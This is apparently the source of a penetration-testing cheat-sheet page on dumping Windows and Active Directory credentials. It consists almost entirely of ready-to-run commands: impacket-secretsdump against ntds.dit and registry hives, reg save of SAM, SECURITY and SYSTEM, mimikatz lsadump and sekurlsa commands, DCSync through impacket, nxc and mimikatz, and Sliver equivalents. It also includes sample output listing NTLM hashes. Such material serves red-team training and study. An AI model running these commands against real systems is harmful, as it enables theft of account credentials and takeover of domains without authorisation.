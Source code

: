 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["Sam", "Dcsync", "Impacket", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive", "Nxc"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}mimikatz{{< /tab >}}
{{< tab set2 tab3 >}}sliver{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
.\mimikatz.exe "lsadump::secrets /system:SYSTEM /security:SECURITY"
```

```console
.\mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
mimikatz -- '"lsadump::secrets /system:C:\SYSTEM /security:C:\SECURITY"'
```

```console
mimikatz -- '"lsadump::sam /system:C:\SYSTEM /sam:C:\SAM"'
```

{{< /tabcontent >}}


### With Dcsync right

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tab set3 tab3 >}}mimikatz{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
# Password
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console
# NTLM
sudo ntpdate -s <DC_IP> && impacket-secretsdump '<DOMAIN>/<USER>@<DC>' -hashes ':<HASH>' -k
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

{{< /tabcontent >}}
{{< tabcontent set3 tab3 >}}

```console
.\mimikatz.exe "lsadump::dcsync /all" "exit"
```

```console
# Dump old creds
.\mimikatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER> /history" "exit"
```

{{< /tabcontent >}}

### With NT AUTHORITY\SYSTEM / Administrator

{{< tab set4 tab1 >}}mimikatz{{< /tab >}}
{{< tab set4 tab2 >}}sliver{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
.\mimikatz.exe "sekurlsa::logonpasswords"
```

```console
.\mimikatz.exe "lsadump::lsa /patch"
```

{{< /tabcontent >}}
{{< tabcontent set4 tab2 >}}

```console
mimikatz -- '"sekurlsa::logonpasswords"'
```

```console
mimikatz -- '"lsadump::lsa /patch"'
```

{{< /tabcontent >}}